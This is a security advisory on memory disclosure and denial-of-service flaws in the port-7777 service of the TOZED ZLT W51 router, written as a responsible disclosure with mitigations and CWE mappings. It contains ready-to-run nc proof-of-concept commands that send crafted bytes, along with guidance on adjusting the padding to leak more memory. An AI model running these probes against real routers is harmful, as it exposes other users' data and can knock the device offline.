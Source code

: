 # TOZED ZLT W51 Router Security Vulnerabilities

## 1. Basic Information

| Field | Value |
|---|---|
| **Vulnerability Type** | Information Disclosure, Memory Corruption , Denial of Service |
| **Affected Product** | TOZED ZLT W51 Router |
| **Affected Version** | Firmware up to 1.4.2 |

## 2. Executive Summary

Critical security vulnerabilities exist in the proprietary service (TCP port 7777) of TOZED ZLT W51 routers:

- **Cross-Connection Memory Disclosure**: Memory fragments from previous connections leak to new clients
- **Protocol State Confusion**: Improper state handling exposes additional memory contents
- **Denial of Service**: Extended exploitation causes service hang
  
<p align="center">
<img width="905" alt="{C784B12A-B9DA-4868-93B8-49C611D131B9}" src="https://github.com/user-attachments/assets/5870ca4f-17bd-429b-8d6c-826d4d11b254" />
</p>

## 3. Technical Details

### 3.1. Cross-Connection Memory Disclosure

When a client disconnects, server-side buffers aren't properly sanitized. Subsequent connections receive fragments of previous clients' data.

**Leak Mechanism:**
1. Attacker sends specially crafted version bytes:
   ```
   \x05\xff\x00
   \x05\x06\x00\x01... + padding until the entire buffer is leaked.
   ```
2. By varying padding bytes, attacker shifts the "leak window" through memory.

### 3.2. Protocol State Confusion Vulnerability

The router improperly handles protocol state transitions. Sending different command sequences in a single connection triggers confusion, causing:
- Memory leaks between protocol transitions
- Concatenated responses with mixed protocol headers
- Additional sensitive data exposure

### 3.3. Denial of Service Impact

An isolated service hang requiring device restart was also observed during extended memory leak exploitation, pointing to potential underlying memory corruption, although this specific crash was not consistently replicated.

### 4. Cross-Connection Memory Leak Validation

Use the following commands to confirm and quantify the buffer-residue leakage. Adjust the padding length to slide the "leak window" deeper into the stale memory region.

```bash
# Initial leak probe: triggers a small disclosure window
echo -e "\x05\xff\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

```bash
# Extended leak probe: append N null bytes to shift the leak offset
echo -e "\x05\x06\x00\x01\x00\x00\x00\x00\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

- **`-N`**: immediately close the write side after EOF  
- **`-w1`**: 1 second timeout to capture the server's response  
- **`xxd -g1`**: hexdump grouped by single bytes for precise inspection  

Adjust the number of trailing null bytes `\x00` to any desired padding length to iterate through successive buffer offsets.  

## 4.1. Proof of Concept

A video demonstration of the Cross-Connection Memory Disclosure vulnerability is available at:

https://github.com/user-attachments/assets/83561d25-8497-4051-bc54-301b3c2fb3f4

### 4.2 Protocol State Confusion Testing Command
```bash
(echo -e "\x05\x01\x00"; sleep 0.5; echo -e "\x04\x01\x00\x50\x08\x08\x08\x08") | nc -N -w 2 192.168.0.1 7777 | xxd -g 1
```

**Expected Results:** Response contains mixed protocol states with memory fragments from previous connections embedded between them.

![image](https://github.com/user-attachments/assets/d97b61dc-ec90-4a6d-89fa-625f0ba2b138)

Looping this for a while we start to see more garbage leaked:

![image](https://github.com/user-attachments/assets/0c29ff3c-bddc-4352-9cdf-a8b0503982fb)

An unauthenticated attacker can exploit these vulnerabilities without any credentials or prior access. In this testing exploitation occurs from the same network, the vulnerability can be exploited remotely across the internet if port 7777 is exposed through firewall rules or port forwarding configurations which will depend on how the ISP has setup the router. This allows attackers to extract sensitive data fragments and potentially disrupt service availability without requiring any authentication whatsoever.

## 5. CWE Classifications

| CWE ID | Name | Description |
|---|---|---|
| **CWE-244** | Improper Clearing of Heap Memory Before Release | Memory buffers are not cleared between connections |
| **CWE-200** | Exposure of Sensitive Information to an Unauthorized Actor | Previous connection data leaks to new clients |

> **Important Note:** Due to the proprietary nature of the firmware, the exact internal implementation details are unknown. This analysis is based on observed behavior and black-box testing.


## 6. Mitigations

- Disable service on TCP port 7777 if not required (this is not possible on user end on some ISP routers)
- Implement network access controls to restrict port access
- Monitor for exploitation attempts

## 7. Timeline

**Discovery:** 2025-04-10

**CNA Report Date:** 2025-05-01

## 8. Credits

Discovered and reported by Mohamed Maatallah
